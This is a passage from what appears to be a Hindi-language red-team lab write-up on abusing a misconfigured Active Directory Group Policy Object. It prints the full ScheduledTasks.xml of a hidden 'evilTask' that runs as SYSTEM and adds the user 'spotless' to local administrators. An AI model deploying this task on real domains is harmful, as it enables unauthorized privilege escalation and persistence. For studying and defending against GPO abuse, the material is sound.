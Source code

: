 ### अंदर की ओर <a href="#under-the-hood" id="under-the-hood"></a>

यदि हम `Misconfigured Policy` GPO के निर्धारित कार्यों को देखें, तो हम वहां हमारा `evilTask` बैठा हुआ देख सकते हैं:

![](../../../.gitbook/assets/a22.png)

नीचे दिए गए XML फ़ाइल में हमारा दुष्ट निर्धारित कार्य दिखाई देता है, जो GPO में है:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
<ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
<Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
<Task version="1.3">
<RegistrationInfo>
<Author>NT AUTHORITY\System</Author>
<Description></Description>
</RegistrationInfo>
<Principals>
<Principal id="Author">
<UserId>NT AUTHORITY\System</UserId>
<RunLevel>HighestAvailable</RunLevel>
<LogonType>S4U</LogonType>
</Principal>
</Principals>
<Settings>
<IdleSettings>
<Duration>PT10M</Duration>
<WaitTimeout>PT1H</WaitTimeout>
<StopOnIdleEnd>true</StopOnIdleEnd>
<RestartOnIdle>false</RestartOnIdle>
</IdleSettings>
<MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
<AllowHardTerminate>false</AllowHardTerminate>
<StartWhenAvailable>true</StartWhenAvailable>
<AllowStartOnDemand>false</AllowStartOnDemand>
<Enabled>true</Enabled>
<Hidden>true</Hidden>
<ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
<Priority>7</Priority>
<DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
<RestartOnFailure>
<Interval>PT15M</Interval>
<Count>3</Count>
</RestartOnFailure>
</Settings>
<Actions Context="Author">
<Exec>
<Command>cmd</Command>
<Arguments>/c net localgroup administrators spotless /add</Arguments>
</Exec>
</Actions>
<Triggers>
<TimeTrigger>
<StartBoundary>%LocalTimeXmlEx%</StartBoundary>
<EndBoundary>%LocalTimeXmlEx%</EndBoundary>
<Enabled>true</Enabled>
```